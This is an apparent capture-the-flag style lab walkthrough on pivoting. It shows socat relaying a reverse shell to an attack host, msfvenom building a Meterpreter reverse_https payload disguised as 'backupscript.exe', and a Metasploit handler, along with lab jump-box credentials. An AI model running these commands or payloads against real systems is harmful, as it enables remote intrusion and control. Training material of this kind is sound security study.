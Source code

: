 ## Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between **2** independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start **socat** on the Ubuntu server. 


#### Jump box credentials 10.129.188.148 (ACADEMY-PIVOTING-LINUXPIV)

Username: ubuntu
Password: HTB_@cademy_stdnt!


### Starting Socat Listener


Socat will listen on localhost on port **4444** and forward all the traffic to port **8000** on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

	$ socat TCP4-LISTEN:4444,FORK TCP4:10.10.15.168:8000


![Socat Lister](/Socat-reverse-shell/socat-reverse-shell.png) 


### Creating the Windows Payload

	$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129 lport=4444 -f exe -o backupscript.exe

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.


### Configuring and Starting multi / handler


![Multi Handler](/Socat-reverse-shell/multi-handler.png) 


We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.


### Establishing the Meterpreter Session


![Root](/Socat-reverse-shell/root.png) 
